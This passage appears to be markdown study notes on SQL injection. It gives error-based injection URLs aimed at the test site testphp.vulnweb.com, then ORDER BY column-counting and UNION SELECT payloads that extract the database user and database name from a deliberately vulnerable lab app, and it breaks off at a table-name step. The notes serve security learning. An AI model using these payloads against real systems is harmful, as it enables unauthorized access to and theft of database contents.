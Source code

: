 

```
http://testphp.vulnweb.com/listproducts.php?cat=2 or 1=1 group by round(rand(0)) having min(0)#
```



```
http://testphp.vulnweb.com/listproducts.php?cat=2 or 1=1 group by concat(version()," ",database()," ",user()," ",round(rand(0))) having min(0)#
```

##### Extremely Vulnerable Web Application

**Check how many columns in the input box**

- Trial and error , increase the number order by 
- If you receive error it means number of columns is incorrect

Order statement

```
SELECT * FROM CAFFAINE WHERE ITEMCODE='1' ORDER BY 1;

1' order by 1#

1' order by 2#
```

**Show the database name**

Union statement

```
SELECT * FROM CAFFAINE WHERE ITEMCODE='1' UNION SELECT 1,2,3,4,5,6,7;

1' UNION SELECT 1,2,3,4,5,6,7#

1' UNION SELECT 1,user(),3,4,database(),6,7#
```



![image-20211015140837276](images/image-20211015140837276.png)

**Get the table name**
